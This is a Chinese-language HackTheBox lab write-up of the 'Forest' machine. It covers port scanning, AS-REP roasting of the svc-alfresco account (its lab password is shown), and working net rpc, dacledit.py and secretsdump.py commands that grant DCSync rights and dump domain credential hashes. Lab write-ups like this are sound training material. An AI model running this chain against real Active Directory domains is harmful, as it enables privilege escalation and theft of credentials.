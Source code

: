 ```yaml
---
title: Forest
date: 2025-01-08
weight: 212
tags:
  - windows
  - easy
  - asreproast
  - dcsync
---
```


![forest_rank.png](forest_rank.png)

## 00. 摘要

## 01. 信息收集

端口扫描

```bash
$ rustscan -u 5000 -a 10.129.24.190
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Open ports, closed hearts.

[~] The config file is expected to be at "/home/lambermaybe/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.129.24.190:53
Open 10.129.24.190:88
Open 10.129.24.190:135
Open 10.129.24.190:139
Open 10.129.24.190:389
Open 10.129.24.190:464
Open 10.129.24.190:593
Open 10.129.24.190:445
Open 10.129.24.190:5985
Open 10.129.24.190:9389
Open 10.129.24.190:47001
Open 10.129.24.190:49666
Open 10.129.24.190:49664
Open 10.129.24.190:49665
Open 10.129.24.190:49667
Open 10.129.24.190:49671
Open 10.129.24.190:49677
Open 10.129.24.190:49676
Open 10.129.24.190:49698
Open 10.129.24.190:49681
```

## 02. 域用户权限

使用匿名账户以及Guest账户进行枚举，发现可以用匿名账户进行访问。但是没有共享目录的读取权限。

然后分别尝试 MS-SAMR 和 RID Cycling 进行域用户枚举，发现能够使用 MS-SAMR 枚举出域用户名。

然后使用 [ASREPRoast](/blog/ASREPRoast) 攻击拿到 `svc-alfresco` 账户。

然后使用 bloodhound 收集域信息

{{< asciinema file="asreproast.cast" poster="npt:0:65" >}}

## 03. 域管理员权限

根据收集到的结果：

![bloodhound.png](bloodhound.png)

将指定用户添加到指定组

```bash
net rpc group addmem "Exchange Windows Permissions" "svc-alfresco" -U "htb.local"/"svc-alfresco"%"s3rvice" -S 10.129.24.190
```

验证是否加入成功

```bash
net rpc group members "EXCHANGE WINDOWS PERMISSIONS" -U "htb.local"/"svc-alfresco"%"s3rvice" -S 10.129.24.190
```

给自己写入DCSync ACL

```bash
dacledit.py -action 'write' -rights 'DCSync' -principal 'svc-alfresco' -target-dn 'DC=HTB,DC=LOCAL' -dc-ip 10.129.24.190 'htb.local'/'svc-alfresco':'s3rvice'
```

DCSync攻击

```bash
secretsdump.py 'htb.local'/'svc-alfresco':'s3rvice'@'10.129.24.190' 
```


{{< asciinema file="WriteDacl.cast" poster="npt:0:27.2" markers="1.0:将指定用户添加到指定组, 4.0:验证是否加入成功, 8.0:写入DCSync权限, 25.0:DCSync攻击" >}}
